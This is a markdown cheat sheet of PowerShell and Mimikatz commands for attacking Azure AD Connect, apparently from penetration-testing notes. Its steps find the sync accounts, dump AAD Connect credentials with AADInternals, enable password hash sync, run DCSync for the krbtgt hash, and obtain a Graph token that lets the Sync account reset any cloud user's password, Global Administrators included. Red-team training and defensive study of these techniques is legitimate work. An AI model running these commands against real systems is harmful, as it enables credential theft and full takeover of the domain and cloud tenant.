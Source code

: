 #### Enumerate server where Azure AD connect is installed (on prem command)
```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl
```

#### Enumerate server where Azure AD connect is installed (Azure command)
```
Import-Module .\AzureAD.psd1
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

#### Check if AD Connect is installed on the server
```
Get-ADSyncConnector
```

#### Dumping AAD Connect credentials
```
Import-Module .\AADInternals.psd1
Get-AADIntSyncCredentials
```

## Password Hash Sync Abuse
#### Turn on password hash sync
- AAD Connect service account can turn on Password hash sync
```
Set-AADIntPasswordHashSyncEnabled -Enabled $true
```

### Abusing On-Prem MSOL_ Account
#### Run DCSync with creds of MSOL_* account
```
runas /netonly /user:<DOMAIN>\MSOL_<ID> cmd 
Invoke-Mimikatz -Command '"lsadump::dcsync/user:<DOMAIN>\krbtgt /domain:<DOMAIN> /dc:<DC NAME>"'
```

### Reset password of cloud user
- Using the Sync_* account we can reset password for any user. (Including Global Administrator and the user who created the tenant)

#### Using the creds, request an access token for AADGraph and save it to cache using the SYNC account.
```
Import-Module .\AADInternals.psd1
$passwd = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<SYNC USERNAME>", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```
